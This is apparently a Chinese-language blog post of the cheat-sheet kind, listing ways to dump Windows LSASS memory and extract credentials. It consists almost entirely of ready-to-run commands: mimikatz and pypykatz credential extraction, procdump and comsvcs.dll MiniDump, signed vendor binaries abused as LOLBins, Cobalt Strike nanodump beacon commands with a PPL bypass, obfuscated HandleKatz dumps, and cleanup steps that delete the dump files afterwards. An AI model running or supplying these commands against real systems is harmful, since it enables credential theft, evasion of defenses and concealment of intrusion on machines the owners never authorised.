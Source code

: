 ```yaml
---
layout: post
title: dump lsa聚合
category: ['lsadump','Done']

---
```




## 解密lsass内存

```
# mimikatz
sekurlsa::Minidump lsassdump.dmp
sekurlsa::logonPasswords full
```



## wce导出hash

```
# 仅支持Windows XP，2003，Vista，7、2008和Windows 8

wce.exe -o file.txt
wec.exe
```



## Procdump

```
# 管理员cmd
procdump  -accepteula -ma lsass.exe lsass_dump

procdump -accepteula -ma 720 lsass.dmp

```



## comsvcs.dll

```
# powershell运行
C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id $env:TEMP\lsass.dmp full

# 清理
Remove-Item $env:TEMP\lsass.dmp -ErrorAction Ignore
```



## dumpert

```
# exe
Outflank-Dumpert.exe

# dll
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump

```



## 任务管理器转存

![image-20220409122415996](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220409122415996.png)



## mimikatz

```
# cmd
mimikatz_exe "sekurlsa::minidump lsass.dump" "sekurlsa::logonpasswords full" exit
```



## pypykatz

```
# python3
pip install pypykatz

# Parsing minidump file of the LSASS process:
# 从dmp里解密
pypykatz lsa minidump <minidump file>

# Dumping LIVE system LSA secrets:
pypykatz live lsa
```



## volatility3

```
# 安装
https://github.com/volatilityfoundation/volatility3/releases/download/v2.0.1/volatility3-2.0.1-py3-none-any.whl
python3 -m pip install -U volatility3-2.0.1-py3-none-any.whl

# 使用
vol -f xxx.dmp -o 111.txt
```





## Out-Minidump.ps1

```
import-module Out-Minidump.ps1
get-process lsass | Out-Minidump

Remove-Item $env:TEMP\lsass_*.dmp -ErrorAction Ignore
```

![image-20220409123740776](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220409123740776.png)



## dump64.exe

一个lolbins：``C:\Program Files (x86)\Microsoft Visual Studio\Installer\Feedback\``

```shell
"C:\Program Files (x86)\Microsoft Visual Studio\Installer\Feedback\dump64.exe" <pid> c:\users\zteam\Desktop\out.dmp
```



## SqlDumper.exe

lolbins：``C:\Program Files\Microsoft SQL Server\100\Shared\SqlDumper.exe``

```
# Full dump file
"C:\Program Files\Microsoft SQL Server\100\Shared\SqlDumper.exe" <pid> 0 0x01100

# Mini-dump file
"C:\Program Files\Microsoft SQL Server\100\Shared\SqlDumper.exe" <pid> 0 0x0120

# Mini-dump file that includes indirectly referenced memory.
"C:\Program Files\Microsoft SQL Server\100\Shared\SqlDumper.exe" <pid> 0 0x0128

# Filtered dump file
"C:\Program Files\Microsoft SQL Server\100\Shared\SqlDumper.exe" <pid> 0 0x8100
```



## nanodump

https://github.com/helpsystems/nanodump

```
# fork
beacon> nanodump --fork --write C:\lsass.dmp

# MalSecLogon
beacon> nanodump --malseclogon --dup --fork --binary C:\Windows\notepad.exe --valid


# ppl bypass
beacon> nanodump_ppl -v -w C:\Windows\Temp\lsass.dmp
```





## HandleKatz

https://github.com/codewhitesec/HandleKatz

```
loader.exe --pid:744 --outfile:dump.obfuscated
```

loader需要自己改改



## DumpMinitool

又一个lolbins：``C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\IDE\Extensions\TestPlatform\Extensions\DumpMinitool.exe``

```
DumpMinitool.exe --file c:\users\public\111.txt --processId 744 --dumpType Full

# 解密
python3 Decoder.py -input dump.obfuscated -output 111.txt

# 可以用pypykatz读取
pypykatz lsa minidump 111.txt
```



## AvDump

AvDump.exe是Avast杀毒软件中自带的一个程序，可用于转储指定进程（lsass.exe）内存数据，它带有Avast杀软数字签名。

```
AvDump.exe --pid 980 --exception_ptr 0 --thread_id 0 --dump_level 1 --dump_file lsass.dmp
```



## MirrorDump

https://github.com/CCob/MirrorDump

无需本地dll支持



